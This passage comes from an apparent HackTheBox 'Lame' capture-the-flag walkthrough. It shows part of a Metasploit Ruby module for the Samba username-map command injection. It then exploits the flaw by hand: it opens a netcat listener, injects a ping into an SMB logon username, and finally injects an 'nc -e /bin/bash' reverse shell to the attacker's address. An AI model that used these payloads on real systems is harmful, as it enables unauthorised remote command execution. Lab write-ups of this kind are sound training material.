 ```ruby
                     [ "Automatic", { } ]
                 ],
             'DefaultTarget'  => 0,
             'DisclosureDate' => 'May 14 2007'))
 
         register_options(
             [
                 Opt::RPORT(139)
             ], self.class)
     end
 
 
     def exploit
 
         connect
 
         # lol?
         username = "/=`nohup " + payload.encoded + "`"
         begin
             simple.client.negotiate(false)
             simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
         rescue ::Timeout::Error, XCEPT::LoginError
             # nothing, it either worked or it didn't ;)
         end
 
         handler
     end
 
 end
```

The payload location in the code is:
```
username = "/=`nohup " + payload.encoded + "`"
```

To test it, we can send a ping to our machine. First, open port 443 to listen with Netcat:

```bash
nc -lvnp 443
```

Then execute:

```bash
logon "/=`nohup ping -c 1 10.10.10.3 | nc 10.10.14.3 443`"
```

![manually_exploitation_ping](GitHubv2/HackTheBox/EASY/Lame/screenshots/manually_exploitation_ping.png)

We receive a ping in our terminal, so let’s execute the exploit manually by modifying the payload to open a reverse shell:

```bash
logon "/=`nohup nc -e /bin/bash 10.10.14.3 443`"
```
